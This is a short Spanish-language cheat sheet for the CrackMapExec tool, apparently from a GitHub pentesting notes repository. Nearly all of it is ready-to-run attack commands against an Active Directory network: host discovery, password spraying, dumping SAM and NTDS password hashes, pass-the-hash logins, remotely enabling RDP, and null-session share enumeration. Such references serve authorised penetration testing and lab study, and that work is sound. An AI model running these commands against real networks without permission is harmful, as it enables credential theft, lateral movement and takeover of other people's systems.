 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<username>' -p listpassword.txt
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<username>' -p '<password>'
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<username>' -p '<password>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<username>' -p '<password>' --ntds
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<username>' -H '<hash>' --local-auth
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<username>' -p '<password>' -M rdp -o action=enable
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)